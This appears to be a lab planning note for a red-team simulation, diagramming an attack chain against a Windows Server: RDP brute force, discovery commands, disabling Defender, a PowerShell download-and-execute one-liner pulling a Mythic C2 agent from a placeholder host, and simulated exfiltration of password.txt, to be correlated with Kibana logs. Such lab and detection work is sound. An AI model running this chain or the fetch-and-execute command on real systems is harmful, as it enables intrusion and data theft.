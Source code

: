 
## Introduction

Goal: Create an attack diagram that outlines the sequence of actions taken to compromise a target Windows Server, establish a C2 connection, and exfiltrate data. The diagram will be used as a visual plan for simulating and analyzing the attack.

Tool: draw.io (for creating the diagram)

---

## Components of the Diagram

![https://www.drawio.com/assets/img/blog/threat-modelling-process-flow.png](https://www.drawio.com/assets/img/blog/threat-modelling-process-flow.png)

![https://www.lockheedmartin.com/content/dam/lockheed-martin/rms/photo/cyber/THE-CYBER-KILL-CHAIN-body.png.pc-adaptive.full.medium.png](https://www.lockheedmartin.com/content/dam/lockheed-martin/rms/photo/cyber/THE-CYBER-KILL-CHAIN-body.png.pc-adaptive.full.medium.png)

![https://www.dnsfilter.com/hubfs/Imported_Blog_Media/6138e35e0ef28036125430bd_C2-attack-servers-2.png](https://www.dnsfilter.com/hubfs/Imported_Blog_Media/6138e35e0ef28036125430bd_C2-attack-servers-2.png)


- **Attacker Laptop (Kali Linux)**
    
    - Color: Red
    - Role: Launch brute force and control the attack.
        
- **Windows Server (Target Machine)**
    
    - Role: System to be compromised via RDP brute force.
        
- **Mythic C2 Server**
    
    - Color: Red
    - Role: Command and control platform for managing the compromised machine.
        
- **Internet**
    
    - Role: Communication channel between attacker and target.
        
- **SSH Server (optional)**
    
    - Role: Potential future target.
        

---

## Attack Phases

### Phase 1: Initial Access

- Method: RDP brute force attack from attacker’s Kali Linux machine.
- Target: Windows Server.
- Goal: Gain successful authentication into the target system.

`event.code: 4625 (Failed) event.code: 4624 (Success)`

---

### Phase 2: Discovery

- After gaining access, the attacker runs basic reconnaissance commands to learn about the system:
    
    `whoami ipconfig net user net group`
    
- Goal: Identify user permissions, network configuration, and system information.

---

### Phase 3: Defense Evasion

- The attacker disables Windows Defender to bypass security controls.
- Command executed within the RDP session.
- Purpose: Prevent security tools from blocking the next steps.

---

### Phase 4: Execution

- Using PowerShell, the attacker downloads and executes the Mythic agent from the Mythic C2 server:
    
    `IEX (New-Object Net.WebClient).DownloadString('http://<C2_SERVER>/agent.ps1')`
    
- Goal: Install the agent and prepare for C2 communication.

---

### Phase 5: Command and Control (C2)

- The agent establishes a persistent connection back to the Mythic C2 server.
- The attacker now has remote command execution and monitoring capabilities on the target machine.

---

### Phase 6: Exfiltration

- The attacker simulates data theft by downloading a file (e.g., `password.txt`) from the target machine’s Documents folder through the C2 channel.
- This phase completes the full attack chain from initial access to data exfiltration.

---

## Final Attack Flow Summary

1. Attacker (Kali Linux) → Brute forces RDP credentials on Windows Server.
2. Attacker logs into Windows Server.
3. Attacker runs discovery commands to learn about the environment.
4. Attacker disables Windows Defender for evasion.
5. Attacker uses PowerShell to download and execute Mythic agent.
6. Mythic agent connects to C2 server.
7. Attacker downloads `password.txt` as simulated exfiltration.

---

## Outcome 

- This diagram serves as a structured attack plan for future red team simulations.
- The attack steps can later be correlated with log data in Kibana to analyze detection and response capabilities.

**Reference**
https://youtu.be/jv-qiugJGHg?si=ZhkVu0mDS1YYAhDu